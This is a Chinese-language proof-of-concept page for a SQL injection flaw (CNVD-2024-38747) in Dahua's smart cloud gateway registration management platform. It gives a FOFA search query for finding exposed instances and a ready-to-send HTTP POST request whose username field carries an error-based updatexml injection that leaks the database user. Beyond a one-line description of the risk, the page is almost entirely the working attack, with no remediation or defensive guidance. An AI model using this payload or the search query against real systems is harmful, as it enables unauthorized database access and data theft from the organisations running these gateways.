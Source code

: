 # 大华智能云网关注册管理平台SQL注入漏洞(CNVD-2024-38747)

大华智能云网关注册管理平台SQL注入漏洞(CNVD-2024-38747)，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
title="智能云网关注册管理平台"
```

## poc

```javascript
POST /index.php/User/doLogin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

username=1')and+updatexml(1,concat(0x7e,user(),0x7e),1)--+&password=
```

![image-20241017143354676](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410171433754.png)